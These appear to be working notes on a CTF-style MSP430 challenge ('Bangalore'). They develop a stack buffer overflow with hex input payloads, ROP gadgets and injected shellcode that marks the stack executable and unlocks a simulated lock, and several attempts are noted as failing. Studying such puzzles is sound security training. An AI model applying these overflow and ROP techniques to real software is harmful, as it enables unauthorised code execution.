 bangalore:

bytes 17 and 18 (past 16 byte limit) end up in pc

`0102030405060708090a0b0c0d0e0f101112`

`324000ffb0121000aaaaaaaaaaaaaaaaee3f`

* stack is always at 0x4000
* input stored at 0x3fee
* stack is write-only page
* address space appears to be 0x0-0xffff
* 256 pages, so 256 bytes per page

Can we jump to `mark_page_executable` with the stack page as a param?

```
mov <page #> r15
call #0x44b4
```

`0102030405060708090a0b0c0d0e0f10b444f1f2f3f4f5f6f7f8f9fafbfcfdfeff`

`324000ffb0121000aaaaaaaaaaaaaaaab444ee3ff3f4f5f6f7f8f9fafbfcfdfeff`

Probably won't work, learn about [ROP, Return Oriented Programming](https://en.wikipedia.org/wiki/Return-oriented_programming)

pop into register followed by a return to get data?

`0102030405060708090a0b0c007f0f105044131415161718191a1b1c1d1e1f`

Can we make the stack executable by:

```
4508:  3b41           pop	r11
450a:  3041           ret

44f6:  0f4b           mov	r11, r15
44f8:  b012 b444      call	#0x44b4 <mark_page_executable>
```

`0102030405060708090a0b0c0d0e0f1008454000f6441718191a1b1c1d1e1f`

`0102030405060708090a0b0c0d0e0f102645131415161718191a1b1c1d1e12021222324252627282922B2C2D2E2F30`

Use this gadget(1) to mark stack as executable:

```
44ba:  3180 0600      sub	#0x6, sp
44be:  3240 0091      mov	#0x9100, sr
44c2:  b012 1000      call	#0x10
44c6:  3150 0a00      add	#0xa, sp
44ca:  3041           ret
```

This moves the stack pointer by 6 bytes, marks page pointed to by sp as executable. This is close, but returning from the call #0x10 writes to the stack, which causes segfault

```
0102030405060708090a0b0c0d0e0f10ba4440000000aaaa324000ffb0121000

0x3fee (page 0x3f)                  0x4000 (page 0x40)
|                                   |
v                                   v
324000ffb012100003430b0c0d0e0f10ba443f000000ee3f
^                               ^   ^   ^   ^
|                               |   |   |   |
This is the code we want to     |   |   |   sp points here after the executable change, making it the return address. We'll jump to our code (5)
execute:                        |   |   0x0 is param for mark page as executable
mov #0xff, sr					|   sp points here after jump to gadget(1), which is the page # (0x3f) to be marked executable
call #0x10						sp will be here, ret addr for gadget(1)
```

Could try ROPing to this gadget(2):

```
4526:  3e40 3000      mov	#0x30, r14
452a:  0f41           mov	sp, r15
452c:  b012 6244      call	#0x4462 <getsn> ; call getsn to read max 48 bytes to sp
4530:  3f40 6524      mov	#0x2465, r15
4534:  b012 7a44      call	#0x447a <puts>
4538:  3150 1000      add	#0x10, sp
453c:  3041           ret
```

This moves the stack pointer 16 bytes and prompts for input again. Could we call this 16 times in order to to leave code in one page while stack pointer gets moved to another page? Then we call gadget(1) to mark the page we left the code in as executable, and then call that code we left in the now executable page.

```
0102030405060708090a0b0c0d0e0f10264540000000bbbb324000ffb0121000
                                ^^^^
                                sp will be here, ret addr for gadget(2)
```
